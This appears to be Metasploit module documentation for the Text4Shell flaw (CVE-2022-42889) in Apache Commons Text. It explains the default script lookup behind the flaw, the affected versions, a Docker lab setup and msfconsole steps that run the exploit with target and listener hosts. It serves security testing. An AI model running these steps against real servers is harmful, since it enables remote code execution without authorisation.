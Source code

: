 ## Vulnerable Application

This exploit takes advantage of the StringSubstitutor interpolator class,
which is included in the Commons Text library. A default interpolator
allows for string lookups that can lead to Remote Code Execution. This
is due to a logic flaw that makes the “script”, “dns” and “url” lookup
keys interpolated by default, as opposed to what it should be, according
to the documentation of the StringLookupFactory class. Those keys allow
an attacker to execute arbitrary code via lookups primarily using the
"script" key.

In order to exploit the vulnerabilities, the following requirements must
be met:

    Run a version of Apache Commons Text from version 1.5 to 1.9
    Use the StringSubstitutor interpolator
    Target should run JDK < 15

## Setup
1. `git clone https://github.com/karthikuj/cve-2022-42889-text4shell-docker`
1. `cd cve-2022-42889-text4shell-docker`
1. `mvn clean install`
1. `docker build --tag=text4shell .`
1. `docker run -p 80:8080 text4shell`
1. Vulnerable application now running at port 8080 on docker image's ip address

## Verification Steps
1. Setup the application
1. Start msfconsole
1. Do: `use apache_commons_text4shell`
1. Do: `set RHOST <docker ip>`
1. Do: `set RPORT 8080`
1. Do: `set TARGETURI /text4shell/attack`
1. Do: `set PARAM search`
1. Do: `set LHOST docker0`
1. Do: `run`

## Options

### PARAM
The parameter vulnerable to the exploit.

### METHOD
The HTTP method to use. Default: `GET`

### TARGETURI
The URI to target. Default: `/`

## Scenarios
